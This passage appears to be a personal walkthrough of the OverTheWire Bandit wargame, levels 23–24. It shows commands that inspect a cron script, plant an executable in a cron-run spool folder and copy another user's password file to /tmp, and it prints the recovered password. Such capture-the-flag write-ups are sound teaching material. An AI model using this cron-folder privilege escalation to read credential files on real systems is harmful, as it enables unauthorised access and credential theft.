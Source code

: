 ```bash
bandit23@bandit:~$ ls /etc/cron.d/
clean_tmp  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  e2scrub_all  otw-tmp-dir  sysstat
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
This script runs all the files in the the folder: "/var/spool/bandit23/foo" as long as the owner of the script is: "bandit23". So lets create a simple bash script that will get the password file of the user bandit24.

The script I made:
```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/12345.txt
```
After much struggle with the output folder (dumb me didn't realise that the /home/bandit23 folder was not writable to) I got the script to work.

```bash
bandit23@bandit:~$ nano /var/spool/bandit24/foo/bash.sh
bandit23@bandit:~$ chmod +x /var/spool/bandit24/foo/bash.sh
bandit23@bandit:~$ ls -l /var/spool/bandit24/foo/bash.sh
-rwxrwxr-x 1 bandit23 bandit23 60 Jun 10 02:25 /var/spool/bandit24/foo/bash.sh
bandit23@bandit:~$ cat /tmp/12345.txt
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

# Level 24

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

